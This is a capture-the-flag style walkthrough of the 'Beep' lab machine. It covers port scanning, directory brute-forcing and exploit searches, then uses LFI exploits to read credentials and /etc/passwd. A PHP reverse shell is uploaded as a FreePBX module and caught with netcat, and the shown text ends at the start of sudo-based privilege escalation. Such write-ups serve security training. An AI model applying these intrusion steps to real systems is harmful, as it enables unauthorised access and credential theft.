* Table of contents
{:toc}

# Machine Info
**IP**: 10.10.10.7

**OS**: Linux

**Difficulty**: Easy

# Passive Enumeration I

## **nmap**
### **Open Services**
```
$ nmap -T4 -p- 10.10.10.7
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-17 00:13 EDT
Nmap scan report for 10.10.10.7
Host is up (0.056s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
878/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt
```

### **All Scan**
```
$ sudo nmap -T4 -p22,25,80,110,111,143,443,878,993,995,3306,4190,4445,4559,5038,10000 -A -O 10.10.10.7                                                       130 ⨯ 2 ⚙
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-17 00:20 EDT
Nmap scan report for 10.10.10.7
Host is up (0.046s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: IMPLEMENTATION(Cyrus POP3 server v2) UIDL AUTH-RESP-CODE LOGIN-DELAY(0) TOP APOP USER RESP-CODES STLS PIPELINING EXPIRE(NEVER)
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed CATENATE THREAD=REFERENCES MULTIAPPEND X-NETSCAPE CONDSTORE UIDPLUS NAMESPACE LISTEXT UNSELECT LITERAL+ THREAD=ORDEREDSUBJECT URLAUTHA0001 BINARY ATOMIC LIST-SUBSCRIBED ANNOTATEMORE IMAP4rev1 MAILBOX-REFERRALS SORT=MODSEQ QUOTA RENAME ID SORT IDLE NO RIGHTS=kxte OK CHILDREN ACL STARTTLS IMAP4
443/tcp   open  ssl/https?
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2021-06-17T04:29:01+00:00; +4m51s from scanner time.
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|media device|PBX|WAP|specialized|printer|storage-misc|proxy server
Running (JUST GUESSING): Linux 2.6.X|2.4.X (95%), Linksys embedded (94%), Riverbed RiOS (94%), HP embedded (94%), Thecus embedded (93%), WebSense embedded (93%)
OS CPE: cpe:/o:linux:linux_kernel:2.6.18 cpe:/o:linux:linux_kernel:2.6.27 cpe:/o:linux:linux_kernel:2.4.32 cpe:/h:linksys:wrv54g cpe:/o:riverbed:rios cpe:/h:thecus:4200 cpe:/h:thecus:n5500 cpe:/o:linux:linux_kernel:2.6
Aggressive OS guesses: Linux 2.6.18 (95%), Linux 2.6.9 - 2.6.24 (95%), Linux 2.6.9 - 2.6.30 (95%), Linux 2.6.27 (likely embedded) (95%), Linux 2.6.20-1 (Fedora Core 5) (95%), Linux 2.6.27 (95%), Linux 2.6.30 (95%), Linux 2.6.5 - 2.6.12 (95%), Linux 2.6.5-7.283-smp (SuSE Enterprise Server 9, x86) (95%), Linux 2.6.8 (Debian 3.1) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 4m50s

TRACEROUTE (using port 111/tcp)
HOP RTT      ADDRESS
1   94.65 ms 10.10.16.1
2   27.69 ms 10.10.10.7
```

## **Enumerating Web**
The nmap scan reveals that the ports 80, 443, and 10000 are hosting web-servers and navigating to them reveals login interfaces.
#### **HTTPS (443)**

#### **Webmin (10000)**


### **Directory Bruteforce using FFuF**
```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u https://10.10.10.7/FUZZ                                                                             2 ⚙

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : https://10.10.10.7/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.htaccess               [Status: 403, Size: 287, Words: 21, Lines: 11]
.htpasswd               [Status: 403, Size: 287, Words: 21, Lines: 11]
admin                   [Status: 301, Size: 309, Words: 20, Lines: 10]
cgi-bin/                [Status: 403, Size: 286, Words: 21, Lines: 11]
configs                 [Status: 301, Size: 311, Words: 20, Lines: 10]
favicon.ico             [Status: 200, Size: 894, Words: 6, Lines: 1]
help                    [Status: 301, Size: 308, Words: 20, Lines: 10]
images                  [Status: 301, Size: 310, Words: 20, Lines: 10]
lang                    [Status: 301, Size: 308, Words: 20, Lines: 10]
libs                    [Status: 301, Size: 308, Words: 20, Lines: 10]
mail                    [Status: 301, Size: 308, Words: 20, Lines: 10]
modules                 [Status: 301, Size: 311, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 309, Words: 20, Lines: 10]
recordings              [Status: 301, Size: 314, Words: 20, Lines: 10]
robots.txt              [Status: 200, Size: 28, Words: 3, Lines: 3]
static                  [Status: 301, Size: 310, Words: 20, Lines: 10]
themes                  [Status: 301, Size: 310, Words: 20, Lines: 10]
var                     [Status: 301, Size: 307, Words: 20, Lines: 10]
vtigercrm               [Status: 301, Size: 313, Words: 20, Lines: 10]
:: Progress: [20475/20475] :: Job [1/1] :: 150 req/sec :: Duration: [0:02:40] :: Errors: 0 ::
```
Navigating to the sub-directories, we find a few more login interfaces at /admin/, /mail/, /recordings/, and /vtigercrm/.

#### **/admin/**

Cancelling the login, shows us the admin interface.


#### **/mail/**

#### **/recordings/**

#### **/vtigercrm/**


### Wappalyzer and whatweb
On the webpages we can see the different software versions used by the applications. These were not identified in the nmap scan, nor can we see them with Wappalyzer and whatweb.

- https://10.10.10.7/: elastix
- https://10.10.10.7:10000/: MiniServ 1.570 (Webmin httpd)
- https://10.10.10.7/admin/: FreePBX 2.8.1.4
  - https://10.10.10.7/mail/: roundcube
- https://10.10.10.7/recordings/: FreePBX 2.5
- https://10.10.10.7/vtigercrm/: vtiger CRM 5.1.0

With all this information, let's search for vulnerabilities that we can exploit.

# Vulnerabilities
## **Elastix and FreePBX**
- 'graph.php' Local File Inclusion (https://www.exploit-db.com/exploits/37637)
- callmenum Remote Code Execution (https://www.exploit-db.com/exploits/18650, https://www.rapid7.com/db/modules/exploit/unix/http/freepbx_callmenum/)

```
$ searchsploit elastix
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                         |  Path
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                                                                                                  | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                                                                | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                                                          | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                                       | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                                                                                      | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                                                                     | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                                                 | php/webapps/18650.py
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
$ searchsploit freepbx
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                         |  Path
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
FreePBX - 'config.php' Remote Code Execution (Metasploit)                                                                              | unix/remote/32512.rb
FreePBX 13 - Remote Command Execution / Privilege Escalation                                                                           | php/webapps/40614.py
FreePBX 13.0.35 - Remote Command Execution                                                                                             | php/webapps/40296.txt
FreePBX 13.0.35 - SQL Injection                                                                                                        | php/webapps/40312.txt
FreePBX 13.0.x < 13.0.154 - Remote Command Execution                                                                                   | php/webapps/40345.txt
FreePBX 13/14 - Remote Command Execution / Privilege Escalation                                                                        | linux/remote/40232.py
FreePBX 2.1.3 - 'upgrade.php' Remote File Inclusion                                                                                    | php/webapps/2665.txt
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                                                 | php/webapps/18650.py
FreePBX 2.11.0 - Remote Command Execution                                                                                              | php/webapps/32214.pl
FreePBX 2.2 - SIP Packet Multiple HTML Injection Vulnerabilities                                                                       | multiple/remote/29873.php
FreePBX 2.5.1 - SQL Injection                                                                                                          | multiple/webapps/11186.txt
FreePBX 2.5.2 - '/admin/config.php?tech' Cross-Site Scripting                                                                          | php/webapps/33442.txt
FreePBX 2.5.2 - Zap Channel Addition Description Parameter Cross-Site Scripting                                                        | php/webapps/33443.txt
FreePBX 2.5.x - Information Disclosure                                                                                                 | multiple/webapps/11187.txt
FreePBX 2.5.x < 2.6.0 - Persistent Cross-Site Scripting                                                                                | multiple/webapps/11184.txt
FreePBX 2.8.0 - Recordings Interface Allows Remote Code Execution                                                                      | php/webapps/15098.txt
FreePBX 2.9.0/2.10.0 - 'callmenum' Remote Code Execution (Metasploit)                                                                  | php/webapps/18659.rb
FreePBX 2.9.0/2.10.0 - Multiple Vulnerabilities                                                                                        | php/webapps/18649.txt
FreePBX < 13.0.188 - Remote Command Execution (Metasploit)                                                                             | php/remote/40434.rb
Freepbx < 2.11.1.5 - Remote Code Execution                                                                                             | php/webapps/41005.txt
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
## **vtiger CRM 5.1.0**
- Remote Code Execution / Cross-Site Request Forgery / Local File Inclusion / Cross-Site Scripting (https://www.exploit-db.com/exploits/9450)
- Local File Inclusion (https://www.exploit-db.com/exploits/18770)
- vTiger CRM SOAP AddEmailAttachment Arbitrary File Upload
 (https://www.rapid7.com/db/modules/exploit/multi/http/vtiger_soap_upload/)
```
$ searchsploit vtiger CRM 5.1.0
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                         |  Path
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vTiger CRM 5.1.0 - Local File Inclusion                                                                                                | php/webapps/18770.txt
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
## **roundcube**
- Remote Code Execution (https://www.exploit-db.com/exploits/40892)

```
$ searchsploit roundcube                                                                                                                                           1 ⚙
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                         |  Path
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Roundcube 1.2.2 - Remote Code Execution                                                                                                | php/webapps/40892.txt
Roundcube rcfilters plugin 2.1.6 - Cross-Site Scripting                                                                                | linux/webapps/45437.txt
Roundcube Webmail - Multiple Vulnerabilities                                                                                           | php/webapps/11036.txt
Roundcube Webmail 0.1 - 'index.php' Cross-Site Scripting                                                                               | php/webapps/28988.txt
Roundcube Webmail 0.1 - CSS Expression Input Validation                                                                                | php/webapps/30877.txt
Roundcube Webmail 0.2 - Cross-Site Scripting                                                                                           | php/webapps/33473.txt
Roundcube Webmail 0.2-3 Beta - Code Execution                                                                                          | php/webapps/7549.txt
Roundcube Webmail 0.2b - Remote Code Execution                                                                                         | php/webapps/7553.sh
Roundcube Webmail 0.3.1 - Cross-Site Request Forgery / SQL Injection                                                                   | php/webapps/17957.txt
Roundcube Webmail 0.8.0 - Persistent Cross-Site Scripting                                                                              | php/webapps/20549.py
Roundcube Webmail 1.1.3 - Directory Traversal                                                                                          | php/webapps/39245.txt
Roundcube Webmail 1.2 - File Disclosure                                                                                                | php/webapps/49510.py
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
## **MiniServ 1.570**
- /file/show.cgi Remote Command Execution (https://www.rapid7.com/db/modules/exploit/unix/webapp/webmin_show_cgi_exec/) [**Requires authentication**]

# Exploitation I
From the above identified vulnerabilities, the LFI (Local file inclusion) exploits are useful here. We identified one from the search for Elastix exploits and the other from the vtigerCRM exploits. Both of these exploits target the vtigerCRM application vulnerability.

## **'graph.php' Local File Inclusion**

Using the payload provided in the exploit reveals the configuration details and we find the credential details. We can modify the payload to reveal other file details as well. For example, we can see the contents of /etc/passwd, the user flag, etc.
## **vTiger CRM 5.1.0 - Local File Inclusion**

Like the previous exploit, we can access the file details as required.

## **Gaining foothold**
Now that we have the credentials, we can try and login into the different services. And we are able to access the elastix manager, admin interface, recordings, and vtigerCRM.

### **Elastix portal**


### **Admin portal**


### **Recording portal**


### **vtigerCRM portal**


## **Spawning a shell**
The admin portal, running on FreePBX, allows the user to install custom modules and a quick Google search shows how to create one [here](https://wiki.freepbx.org/display/FOP/FreePBX+Module+Generator) and [here](https://github.com/DarkCoderSc/freepbx-shell-admin-module/blob/master/module.xml). Copying over my PHP reverse shell script to the created directory (renamed as install.php), we are able to get a tar.gz file that can be uploaded. 

```
$ ls shell/
install.php  module.xml
$ tar -cvzf shell-1.0.tar.gz shell
shell/
shell/install.php
shell/module.xml
```
Now, we can open the "Upload module" service on the Module Admin page and upload our created module. Once the upload is complete, installing it gives a shell on our netcat listener.



```
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.16.173] from (UNKNOWN) [10.10.10.7] 60470
SOCKET: Shell has connected! PID: 9620
id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
whoami
asterisk
```
A shell can also be spawned from the vtigerCRM service similarly, by creating and adding a custom module. ([Here](https://community.vtiger.com/help/vtigercrm/developers/extensions/examples/hello-world-v1.html) is how to create a vtiger module.)

## **Privilege Escalation**
Privilege escalation from hereon is trivial, with the asterisk user allowed sudo access to several binaries. But before that, first convert the shell to a TTY.

```
python -c "import pty;pty.spawn('/bin/bash')"
bash-3.2$ sudo -l
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
